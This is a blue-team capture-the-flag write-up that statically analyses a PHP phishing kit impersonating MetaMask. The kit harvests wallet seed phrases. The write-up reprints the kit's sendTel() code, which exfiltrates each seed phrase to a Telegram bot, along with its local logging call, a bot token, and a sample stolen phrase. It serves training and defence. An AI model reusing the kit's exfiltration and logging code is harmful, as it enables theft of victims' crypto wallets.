








# GrabThePhisher — Phishing Kit Analysis (CyberDefenders)

**Category:** Threat Intel / Phishing Analysis
**Platform:** [CyberDefenders - GrabThePhisher](https://cyberdefenders.org/blueteam-ctf-challenges/grabthephisher/) (Blue Team CTF, Threat Intel, difficulty: Easy)
**Author:** Anshio Renin
**Tools:** Windows PowerShell (`ls`, `cd`, `cat`, `Select-String`), a text editor, and a web browser

---

## Summary

I was given a captured **phishing kit** and asked to reverse it: work out what brand it impersonates, how it steals from victims, where the stolen data goes, and who is behind it. This is a static analysis exercise, so nothing is executed. The kit turned out to be a **MetaMask** seed-phrase stealer written in PHP that harvests wallet recovery phrases and exfiltrates them to the attacker over a **Telegram bot**, while also keeping a local copy of every victim's seed phrase.

---

## Methodology

### 1. Extract and map the kit
After extracting the password-protected archive, I moved into the kit folder and listed the contents:

```powershell
cd .\pankewk\
ls
```

The tree included the usual site assets (`index.html`, `background.jpg`, `logo.png`, `favicon.ico`) plus three folders that stood out: `metamask`, `log`, and `cgi-bin`. The `metamask` folder name immediately suggested the impersonated brand.



### 2. Confirm the impersonated wallet
```powershell
cd .\metamask\
ls                              # index.html, metamask.php, fonts, .DS_Store
cat .\metamask.php | sls "wallet"
cat .\index.html  | sls "wallet"
```

- `metamask.php` returned `<b>Wallet:</b> Metamask`.
- `index.html` returned the fake UI, including a `Wallet Seed` label and an `import-account__secret-phrase` text area.

**Confirmed:** the kit impersonates **MetaMask** and asks the victim for their **secret recovery (seed) phrase**, the single most sensitive item for a crypto wallet.





### 3. Read the kit logic (`metamask.php`)
```powershell
cat .\metamask.php
```

Key behaviour observed:

- **Victim profiling:** the kit calls `http://api.sypexgeo.net/json/` with the victim's IP (`$_SERVER['REMOTE_ADDR']`) to resolve **country and city**. Sypex Geo is a Russian IP-geolocation service.
- **Data captured:** the submitted seed phrase (`$_POST["data"]`), the victim IP, geolocation, and the browser user agent are assembled into a message.
- **Local theft:** the seed phrase is appended to a local log file:
  ```php
  file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);
  ```
- **Attribution:** a comment block signs off with the developer alias **`j1j1b1s@m3r0`**.







### 4. Recover the stolen data
```powershell
cd ..\log\
ls                 # .htaccess, log.txt, .DS_Store
cat .\log.txt
```

`log.txt` contained **3 stored seed phrases**. The most recent entry was:

> `father also recycle embody balance concert mechanic believe owner pair muffin hockey`

Anyone holding these phrases has full, irreversible control of the victims' wallets.



### 5. Find the exfiltration channel
The kit's `sendTel()` function revealed live exfiltration over Telegram:

```php
function sendTel($message){
    $id    = "5442785564";
    $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10";
    $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
    file_get_contents($filename);
}
```

So every victim's seed phrase is sent instantly to the attacker's **Telegram chat**, in addition to the local `log.txt`.



---

## Findings

| Question | Finding |
|---|---|
| Wallet impersonated | **MetaMask** |
| File containing the kit code | **metamask.php** |
| Language | **PHP** |
| Service used to profile the victim's machine | **Sypex Geo** (`api.sypexgeo.net`) |
| Seed phrases already collected | **3** |
| Most recent stolen seed phrase | `father also recycle embody balance concert mechanic believe owner pair muffin hockey` |
| Credential-dumping medium | **Telegram** bot |
| Telegram bot token | `5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10` |
| Telegram chat ID | `5442785564` |
| Phish-kit developer alias | `j1j1b1s@m3r0` |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Where it appears |
|---|---|---|
| Reconnaissance | T1589 / T1592 (Gather Victim Information) | Sypex Geo lookup of the victim IP |
| Initial Access | **T1566 Phishing** | Fake MetaMask page harvesting the seed phrase |
| Collection | T1005 (Data from Local System) | Seed phrases written to `log/log.txt` |
| Exfiltration | **T1567 Exfiltration Over Web Service** / T1102 (Web Service) | Seed phrases sent to the attacker's Telegram bot |

---

## Defensive Takeaways

Reversing the kit is only useful if it drives defensive action. If I found this in a real investigation I would:

1. **Kill the exfil channel:** report the Telegram bot token to Telegram abuse so it is revoked. The attacker keeps stealing until this is done.
2. **Take down and block:** get the phishing domain taken down, and block it at the proxy and DNS layer in the meantime.
3. **Notify victims:** every seed phrase in `log.txt` means a fully compromised wallet. Those users must move their funds to a **new** wallet immediately, because seed-phrase theft is irreversible.
4. **Hunt:** review proxy and DNS logs for internal users who reached the phishing domain, and add brand-abuse monitoring for newly registered MetaMask lookalike domains.
5. **Detection idea:** alert on unexpected outbound requests to `api.telegram.org` from servers or hosts that have no business talking to Telegram, a common exfil pattern for cheap phishing kits.

> Note: I did **not** interact with the live attacker infrastructure (for example querying the bot API). In a real incident you report the token for takedown rather than touching the attacker's channel.

---

## What I learned

- How a credential/seed-phrase phishing kit is structured, and how to trace the flow of stolen data from the form to storage to exfiltration.
- That `Select-String` (`sls`) over the source is a fast way to pivot from a hypothesis (the brand) to proof.
- Why seed-phrase phishing is high severity: the theft is immediate and irreversible, and the same kit exfiltrates two ways (local log plus live Telegram).

---

*Written up for learning purposes. The challenge is a retired CyberDefenders exercise; all indicators shown are from the provided lab sample, not live infrastructure.*
